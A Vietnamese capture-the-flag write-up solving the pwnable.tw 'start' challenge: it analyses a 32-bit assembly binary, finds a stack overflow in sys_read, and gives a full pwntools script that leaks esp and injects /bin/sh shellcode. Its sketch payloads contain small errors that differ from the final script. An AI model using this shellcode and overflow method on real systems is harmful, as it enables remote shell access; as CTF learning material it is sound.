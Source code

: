 # [Start] [[pwnable.tw](https://pwnable.tw/)]

>Đây là bài đầu tiên trong chuỗi các bài ```pwn``` (Mình dự định làm các ```chall``` về ```pwn``` trong thời gian sắp tới để học hỏi thêm @.@ và viết ```writeup``` chia sẻ những thứ mình học được).
>
>Trong writeup mình viết theo cách thức mà mình hiểu có thể chưa đúng. Mong mọi người góp ý thêm.


>Just a start.
>
>nc chall.pwnable.tw 10000
>
>[start](https://pwnable.tw/static/chall/start)

Let's start

Cũng như khi làm các ```chall``` về ```RE``` mình thường check kiểu file và thử tìm kiếm một vài strings và thử chạy để có thể có thêm một vài thông tin định hướng cách làm blah blah...

Check kiểu file:

![File type]({{ site.url }}/assets/start_file_type.PNG)

Liệt kê strings:

![Enumrate String]({{ site.url }}/assets/start_strings.PNG)

Chạy thử:

![Run]({{ site.url }}/assets/start_run.PNG)


Qua việc check kiểu file mình có thể thấy đây là file ```ELF 32bit``` (Cái này mình chỉ dùng để mở cho đúng IDA hoy ^^)

Tiếp theo liếc qua các string và để ý đến 2 string đầu là:

```hCTF:hthe hart hs sthLet'```

và

```start.s```

Dựa vào string đầu tiên có thể thấy string này bị đảo ngược(4 kí tự) so với string được in ra khi chạy thử nên có thể lờ mờ đoán rằng string này được push vào stack theo kiểu một số ```DWORD```

Đại loại như sau:

Giả sử ta có strings ```"Let's start the CTF:"``` thường sẽ sử dụng các hàm ```copy``` để gán nó cho một biến trong stack

Nhưng cũng có 1 cách khác là sử dụng push đề copy nó vào stack như sau:

```c
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    ''teL'
```

Điều này có thể giải thích vì sao liệt kê string lại bị ngược như vậy

Tiếp đó là xâu ```start.s``` Dựa vào xâu này mình đoán người ra đề code bằng ```asm``` trên linux

OK đó là tất cả những gì mình có thể thấy khi kiểm tra và chạy thử file

Load chall vào IDA để xem tiếp vậy

![IDA loaded]({{ site.url }}/assets/start_ida.PNG)

Có thể thấy đoạn push string chuẩn như chúng ta nhận định ban đầu

Chương trình được chia làm 2 đoạn là ```_start``` và ```_exit```

Khi bắt đầu ```_start``` ta thấy có 2 lệnh push là

```c
push    esp
push    offset _exit
```

Để đó chưa rõ làm gì

Đọc tiếp thấy ```chall``` này sử dụng ngắt ```int 80h``` để gọi các ```system call``` trong linux kernel

với EAX = 4 ```sys_write``` sẽ được gọi

với EAX = 3 ```sys_read``` sẽ được gọi

Ở ```_exit``` EAX = 1 ```sys_exit``` sẽ được gọi

Chi tiết có thể tham khảo các syscall [tại đây](https://syscalls.kernelgrok.com/)

Bây giờ xem xem có thể khai thác được tại đâu. Với các dạng bài cần ```nc``` vào server như này thì dự là ```flag``` sẽ được đặt trên server. Player sẽ khai thác và đọc flag (nghe EZ v~)

Trong bài này ta thấy. ```sys_read``` cho phep đọc vào tận 0x3C kí tự trong khi ở đoạn tiếp theo chương trình chỉ cộng ```esp``` với 0x14 rồi return

Nếu ta nhập một chuỗi > 0x14 kí tự thì sao???

Bummmm.....! Stack overflow và sau khi lệnh return chương trình sẽ nhảy đến một chỗ nào đó và thực hiện tiếp

Như vậy. cần 2 phần để có thể thực hiện đoạn code mà mình mong muốn với chương trình này

Một là địa chỉ để sau lệnh ```retn``` chương trình quay lại đó thực thi

Hai là đoạn code mà bạn mong muốn chương trình sẽ thực hiện

Với 2 mình tìm được một đoạn shellcode(23 bytes) trên mạng. Có thể tham khảo [tại đây](http://shell-storm.org/shellcode/files/shellcode-827.php)

Giờ ta chỉ cần tìm được đỉa chỉ trả về đề run đoạn shellcode là xong (Nghe vẫn EZ =)) ).

sau ```sys_read``` chương trình cộng ```esp``` với 0x14 - Đây chính là vùng chứa ```offset _exit``` để thực thi sau ```retn```

Vậy nếu ghi đè địa chỉ này thành ```0x08048087``` thì chương trình sẽ quay lại ```0x08048087``` và gọi ```sys_write``` một lần nữa in ra giá trị mà 4 byte đầu tiên chính là giá trị của esp trong lệnh ```push esp``` ở đầu chương trình sau nó nó tiếp tục gọi ```sys_read```. =)) Như vậy ta có thể làm theo 2 bước như sau:

**B1:** Lấy giá trị của ```esp```

**B2:** Chèn shellcode để gọi ra "/bin/sh"

(Nghe tiếp tục EZ)

Để thực hiện **B1** ta cần đoạn payload như sau

```python
    payload = 20 * 'a' + '\x87\x90\x04\x08'
```

Sau đó sẽ xử lý giá trị nhận được và có được ```esp```

Tiếp tục **B2** payload sẽ là:

```python
payload2 = '20' * a + <địa chỉ esp + 0x14> + shelcode
```

fullcode:

```python
from pwn import * 

host = "chall.pwnable.tw"
port = 10000

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

con = remote(host, port)
print con.recv(1024)

get_sp_string = 20 * 'a' + '\x87\x80\x04\x08'
con.send(get_sp_string)
sp_addr = u32(con.recv(1024)[0:4])

real_shellcode = 20 * 'a' + p32(sp_addr + 20) + shellcode
con.send(real_shellcode)
con.interactive()
con.close()
```